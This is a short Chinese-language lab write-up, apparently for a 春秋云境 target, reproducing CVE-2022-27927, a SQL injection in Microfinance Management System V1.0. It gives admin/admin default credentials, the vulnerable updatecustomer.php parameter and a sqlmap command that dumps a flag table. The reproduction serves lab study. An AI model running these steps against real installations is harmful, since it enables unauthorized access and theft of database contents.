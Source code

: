 ```yaml
---
title: CVE-2022-27927【SQL 注入】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'SQL 注入'
---
```


## 1. 漏洞介绍

[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2022-27927)

[GitHub - erengozaydin/Microfinance-Management-System-V1.0-SQL-Injection-Vulnerability-Unauthenticated: CVE-2022-27927](https://github.com/erengozaydin/Microfinance-Management-System-V1.0-SQL-Injection-Vulnerability-Unauthenticated)

## 2. 漏洞复现

弱密码登录 admin/admin，访问 `http://eci-2ze4x19l8hd6jj959li8.cloudeci1.ichunqiu.com/updatecustomer.php?customer_number=5361` 抓包跑sqlmap。

```python
python sqlmap.py -r post.txt --dbms=mysql -D mims  --batch -T flag -C flag --dump
```

![1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309061157428.jpg)
